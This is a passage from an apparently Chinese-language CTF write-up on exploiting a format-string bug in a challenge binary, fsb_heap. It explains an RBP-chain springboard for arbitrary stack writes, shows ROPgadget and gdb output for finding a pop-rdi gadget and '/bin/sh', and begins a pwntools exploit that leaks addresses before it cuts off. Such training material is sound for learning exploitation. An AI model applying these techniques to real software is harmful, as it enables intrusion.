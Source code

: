 怎样利用这个RBP链来构成一个跳板来执行栈上任意地址写呢？首先我们知道格式化字符串的%n是把一个值写到一个指针所指向的地址上去。正是如此我们才不能直接往栈上写，因为我们不能确保第几个参数上的那个指针是否是一个有效指针。所以我们需要用到跳板。这个RBP链的跳板主要是通过修改`0x00007fffffffdfd0`这个指针所指向的`0x00007fffffffdff0`这个值的后四位，让其仍然是一个栈上的地址；然后再修改`0x00007fffffffdff0(这个表示上一步修改后的值)`所指向的地址，就可以实现修改栈上任意地址的值了。

这里提醒一点就是泄露地址：用前面的方法泄露，易得`0x00007fffffffdfd0`是第八个参数`__libc_start_main`是第十七个参数等。


首先跟前面的题目一样，泄露出libc的基地址和system地址、`/bin/sh`的地址；最后再找到一个`pop rdi;ret`的gadget，准备工作就做完了。

```
root@kali:~/Desktop/release# ROPgadget --binary fsb_heap --only "pop|ret"
Gadgets information
============================================================
0x0000000000400a5c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a5e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a60 : pop r14 ; pop r15 ; ret
0x0000000000400a62 : pop r15 ; ret
0x0000000000400a5b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400a5f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004007b0 : pop rbp ; ret
0x0000000000400a63 : pop rdi ; ret
0x0000000000400a61 : pop rsi ; pop r15 ; ret
0x0000000000400a5d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400679 : ret

Unique gadgets found: 11
```

找system地址跟上面的题目方法一样，直接p system 然后xinfo看一下偏移量。
找`/bin/sh\x00`
```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7fcaf43ce9b9 --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ xinfo 0x7fcaf43ce9b9
0x7fcaf43ce9b9 --> 0x68732f6e69622f ('/bin/sh')
Virtual memory mapping:
Start : 0x00007fcaf426d000
End   : 0x00007fcaf4400000
Offset: 0x1619b9
Perm  : r-xp
Name  : /lib/x86_64-linux-gnu/libc-2.24.so
gdb-peda$ 
```
详细脚本如下：
上脚本：
```
from pwn import *

p = process('fsb_heap') #env = {'LD_PRELOAD':'./libc.so.6'}
#libc = ELF('libc.so.6')
elf = ELF('fsb_heap')

def s_sub(a,b):
    if a<b:
       return 0x10000 + a - b 
    return a - b 

##########step1##########

payload = ""
payload += "%7$p.%8$p.%17$p.%12$p." 

#pause()

p.recv()
```